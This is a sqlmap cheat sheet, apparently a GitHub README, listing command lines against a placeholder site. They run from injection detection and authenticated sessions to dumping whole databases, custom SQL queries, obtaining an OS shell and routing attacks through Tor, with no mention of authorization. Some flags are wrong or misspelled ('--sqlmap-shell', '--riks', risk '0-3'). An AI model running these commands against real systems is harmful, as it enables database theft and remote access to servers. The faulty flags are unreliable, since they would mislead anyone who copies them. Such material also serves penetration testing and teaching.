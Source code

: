 # SQLMAP HELP DESK 
## Simple Usage
If you don’t know anything about the target site then use the normal command first, Observe if the SQLMap found something juicy for you

```bash
sqlmap -u “https://target_site.com/page/”
```

## Automatic GET request parameter
```bash
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2”
```
## Specify the GET request parameters to Exploit
You can specify on which parameter you want to check or exploit the sql injection using just “-p” flag.
```bash
sqlmap -u “https://target_site.com/page?p1=value1&p2=value2” -p p1
```
## Use POST requests (Test All parameters)
```bash
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2"
```
## SQLMap Request file as input
You can specify a request file containing the HTTP request, You can get it quickly from BurpSuite.

## sqlmap -r request.txt
Here you can specify the targeted parameter or sqlmap will recognize and will test for all the parameters found.

## Use Authenticated Session With Cookie
```bash
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --cookie="Session_Cookie_Value"
```
## Use Authenticated Session with Auth Headers
```bash
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --headers="Authorization: Basic YWxhZGRpbjpvcGVuc2VzYW1l"
```
## Basic Authentication
```bash
sqlmap -u “https://target_site.com/page/” --data="p1=value1&p2=value2" --auth-type=basic --auth-cred=username:password
```
## Use Previously created Session as SQLmap input (-s)
If you got SQL injection positive somewhere, then sqlmap will automatically create a session file(.sqlite) for later use. Now, If you want to try some other commands later, you can use the session file directly (It will save your time to re-try all the possible payloads and identify the vulnerability and all.)
```bash
sqlmap -u “https://target_site.com/page?p1=value1" -s SESSION-FILE.sqlite --dbs
```
You can use this file from the home path of the SQLMap tool’s output directory.

## Post Exploitation Commands
If the SQL injection vulnerability is observed positive then you can use the following commands to Exploit the SQL injection vulnerability.

## List the Databases
```bash
sqlmap -u “https://target_site.com/page?p1=value1” --dbs
```
## List Tables of Database TARGET_DB
```bash
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --tables
```
## List Columns of Table TARGET_TABLE of Database TARGET_DB
```bash
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --columns
```
## Dump Specific Data of Columns of Table TARGET_TABLE of Database TARGET_DB
```bash
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE -C "Col1,Col2" --dump
```
## Fully Dump Table TARGET_TABLE of Database TARGET_DB
```bash
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB -T TARGET_TABLE --dump
```
## Dump full Database
```bash
sqlmap -u “https://target_site.com/page?p1=value1” -D TARGET_DB --dump
```
##Custom SQL query
```bash
sqlmap -u “https://target_site.com/page?p1=value1” --sql-query "SELECT * FROM TARGET_DB;"
```
## Get OS Shell
```bash
sqlmap -u “https://target_site.com/page?p1=value1” --os-shell
```
##Get SQL shell
```bash
sqlmap -u “https://target_site.com/page?p1=value1” --sqlmap-shell
```

# SQLMap Proxy
## Proxy through Burpsuite
```bash
sqlmap -u “https://target_site.com/page?p1=value1” --proxy="http://127.0.0.1:8080/"
```
## Use Tor Socks5 proxy
```bash
sqlmap -u “https://target_site.com/page?p1=value1” --tor --tor-type=SOCKS5 --check-tor --dbs
```

# Extra
## Specify The Database Type
```bash
sqlmap -u “https://target_site.com/page?p1=value1” --dbms=mysql
```
You can use other DBMS types like MySQL, Oracle, PostgreSQL, Microsoft SQL Server, Microsoft Access, IBM DB2, SQLite, Firebird, Sybase, SAP MaxDB, Informix, MariaDB, Percona, MemSQL, TiDB, CockroachDB, HSQLDB, H2, MonetDB, Apache Derby, Amazon Redshift, Vertica, Mckoi, Presto, Altibase, MimerSQL, CrateDB, Greenplum, Drizzle, Apache Ignite, Cubrid, InterSystems Cache, IRIS, eXtremeDB, FrontBase, etc.

# Attack Techniques
–technique Specify a letter or letters of BEUSTQ to control the exploit attempts:

B: Boolean-based blind
E: Error-based
U: Union query-based
S: Stacked queries
T: Time-based blind
Q: Inline queries
```bash
sqlmap -u “https://target_site.com/page?p1=value1” --technique=BEUSTQ
```
## Specify the Injection Techniques
You can specify the difficulty levels using two flags,
```bash
–level = LEVEL     Level of tests to perform (1-5, default 1)
–risk=RISK         Risk of tests to perform (0-3, default 1)
sqlmap -u “https://target_site.com/page?p1=value1” --risk=3 --level=5
Option: --risk
```
This option requires an argument that specifies the risk of tests to perform. There are three risk values.

```bash
–riks=1: 1 is the default value which is for the majority of SQL injection points.

–riks=2: Adds to the default level the tests for heavy query time-based SQL injections

–riks=3: Value 3 adds also OR-based SQL injection tests.

Option: --level
```
When the value of --level is >= 2 it tests also HTTP Cookie header values. When this value is >= 3 it tests also HTTP User-Agent and HTTP Referer header value for SQL injections.

Use Default Options for the process
Use –batch flag to use all the default options or used for non-interactive sessions. (By specifying –batch flag, sqlmap will not ask you for the (Y/N) choice rather then it will smartly choose according to the needs.)
```bash
sqlmap -u “https://target_site.com/page?p1=value1” --batch
–force-ssl flag
```
Force SQLmap to use SSL or TLS for its requests.

# Conclusion:
SQLMap is a fantastic tool for SQL Injection attacks. By analyzing the above cheat sheet we can create a general-purpose command to use most useful flags in it,
```bash
sqlmap -u “https://target_site.com/page/”--proxy="http://127.0.0.1:8080/" --cookie=”SESSID=lred0jr6na1vmci;” --data=”p1=value1” -p p1 --level=5 --risk=3 --dbms=mysql --technique=BEUSTQ --force-ssl
```
As always I hope you found this SQLMap cheat sheet useful. Guys, feel free to show the post some love and share the cheat sheet to your friends and colleagues. I will also post in a detailed SQLMap tutorial soon.

# References
http://sqlmap.org/
https://tools.kali.org/vulnerability-analysis/sqlmap
https://gitlab.com/kalilinux/packages/sqlmap
